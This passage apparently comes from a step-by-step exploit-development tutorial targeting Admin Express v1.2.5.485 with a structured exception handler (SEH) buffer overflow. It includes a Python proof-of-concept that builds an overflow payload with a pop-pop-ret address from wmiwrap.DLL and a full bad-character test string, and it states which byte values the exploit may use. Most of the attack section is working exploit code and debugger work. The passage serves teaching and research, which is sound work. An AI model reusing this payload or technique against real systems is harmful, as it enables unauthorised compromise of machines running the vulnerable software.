 <img src="{{ site.url }}{{ site.baseurl }}/images/7.png" alt="">

Step through with `F7`. We reach our nSEH jump instruction, but we notice something wrong! Our instructions got mangeled:

<img src="{{ site.url }}{{ site.baseurl }}/images/8.png" alt="">

Well, this is a problem. A short jump is the typical instruction for jumping we are used to. It is evidently a bad character. We now need to determine what all of the other bad characters are, so we do not run into this problem again. [Here](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/) is a place that automatically stores all of the characters possible into a variable. I have also updated the PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = "\x41" * 4260
#payload += "\xeb\x06\x90\x90"          # Short jump 6 bytes into C buffer
payload += "\x42\x4c\x01\x10"           # 0x10014c42 pop pop ret wmiwrap.DLL
payload += badchars                     # Adding bad characters.
payload += "\x43" * (5000-len(payload))

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
You may have to break the bad characters up into two sections. When printing these characters to the console, you will notice a break in the lines. Just try chunks of the characters at a time. In the end, when you throw all of these characters at the application you will find the allowed character set. To save time, I will provide it to you. The allowed characters for this exploit are as follows (in hex):
`01-04, 06, 10-7E`. This will prove to provide some challenges going forward. But for now, just remember these characters are bad.
